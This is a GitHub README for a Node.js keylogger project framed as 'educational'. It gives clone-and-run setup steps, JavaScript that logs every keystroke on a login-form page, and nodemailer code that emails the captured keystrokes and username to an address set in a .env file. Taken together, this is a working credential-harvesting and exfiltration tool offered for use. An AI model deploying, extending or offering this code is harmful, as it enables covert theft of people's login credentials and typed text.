


# # Keylogger Project 🕵️‍♂️

A comprehensive educational project demonstrating client-server communication, event handling, and data processing in web applications. This implementation focuses on understanding keystroke capture mechanisms and secure data transmission protocols.

## System Architecture




The diagram illustrates the system's three-layer architecture:

- 🔵 Frontend Layer: Handles user interaction and keystroke capture
- 🟢 Backend Services: Processes captured data and manages email transmission
- 🟡 Configuration: Stores environment variables and settings

The dashed line indicates that the backend server reads configuration values from the .env file during initialization. Each component communicates sequentially, with keystrokes flowing from capture through processing to delivery.

## Project Structure

```text
📁 project-root/
├── 📄 index.js          # Backend server implementation
├── 📄 script.js         # Frontend keystroke capture
├── 📄 index.html        # Login form interface
├── 📄 keycodes.js       # Key mapping definitions
├── 📄 styles.css        # UI styling
└── 📄 .env             # Environment configuration
```

## Data Flow Visualization




The sequence diagram shows three key phases of operation:

1. 🔵 Normal Login Flow: Shows the typical user interaction sequence
2. 🟢 Processing Phase: Illustrates how data is processed and transmitted
3. 🟡 Error Handling: Demonstrates fault tolerance mechanisms

Solid arrows (→) represent direct actions, while dashed arrows (-->) show responses or callbacks. Alternative flows (marked with 'alt') show how the system handles different error scenarios.

## Setup Instructions 🛠️

Clone the Repository```bash
git clone https://github.com/pranaykumar2/keylogger.git
```

Install Dependencies```bash
npm install
```

Configure Environment Variables```plaintext
GMAILFROM=your-from-email@gmail.com
PASSWORD=your-email-password
GMAILTO=your-to-email@gmail.com
PORT=3000
```

Initialize Server```bash
node index.js
```

## Implementation Details 🔍

### Keystroke Capture Mechanism

```javascript
document.addEventListener('keydown', (event) => {
    const keyInfo = {
        keyCode: event.keyCode,
        key: event.key,
        timestamp: new Date().getTime(),
        eventType: 'keydown'
    };
    capturedKeys.push(keyInfo);
});
```

### Email Transmission System

```javascript
const transporter = nodemailer.createTransport({
    service: 'gmail',
    auth: {
        user: process.env.GMAILFROM,
        pass: process.env.PASSWORD
    }
});

const mailOptions = {
    from: process.env.GMAILFROM,
    to: process.env.GMAILTO,
    subject: 'Keystrokes Log',
    text: `Keystrokes log for user ${username}:\n${keysPressedText}`
};
```
## **Steps to setup `APP PASSWORD`:**

   1. Go to your Google Account App Passwords: [Google App Passwords](https://myaccount.google.com/apppasswords)
   2. Name your app and create the password
   3. Copy the generated password and use it in the `.env` file
   4. 
## Usage Guide 📝

Launch the application at localhost:3000Enter login credentials in the formType any additional text while the page is activeSubmit the form to trigger email transmission## Technologies Used 💻

- 🔷 Frontend: HTML/CSS/JavaScript
- 🔷 Backend: Node.js, Express.js
- 🔷 Utilities: Nodemailer, Body-parser
- 🔷 Development: Git

## Contributing Guidelines 🤝

- Open an issue before submitting major changes
- Follow the existing code style
- Include comprehensive test cases
- Document new features thoroughly

## License 📜

Released under the MIT License. See LICENSE file for details.

## Security Considerations 🔒

- Store sensitive credentials securely using environment variables
- Implement proper error handling and logging
- Use secure communication protocols
- Regularly update dependencies to prevent vulnerabilities

This enhanced README provides a clearer understanding of the system architecture and implementation details while maintaining a professional and educational focus. The added diagrams help visualize both the static structure and dynamic interactions of the system components.
